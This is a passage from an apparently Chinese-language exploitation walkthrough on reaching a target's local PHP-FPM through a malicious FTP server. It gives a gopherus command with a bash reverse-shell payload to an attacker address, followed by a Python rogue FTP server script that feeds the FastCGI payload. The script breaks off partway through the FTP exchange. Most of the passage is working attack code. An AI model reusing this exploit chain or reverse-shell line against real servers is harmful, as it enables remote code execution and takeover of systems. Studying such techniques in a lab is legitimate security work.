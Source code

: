 这样，我们就可以向目标主机本地的PHP-FPM发送一个任意的数据包，从而执行代码，造成SSRF。

但github拉取的镜像复现失败了，应该是FPM的问题，不过我们就当有，直接起一个FPM镜像来。

gopherus生成payload

```bash
python gopherus.py --exploit fastcgi
/var/www/public/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/ip/port1 0>&1"  # 这里输入的是要执行的命
```

拿到_后门的部分后写入ftp脚本中：

```python
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode
payload = unquote("payload")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
```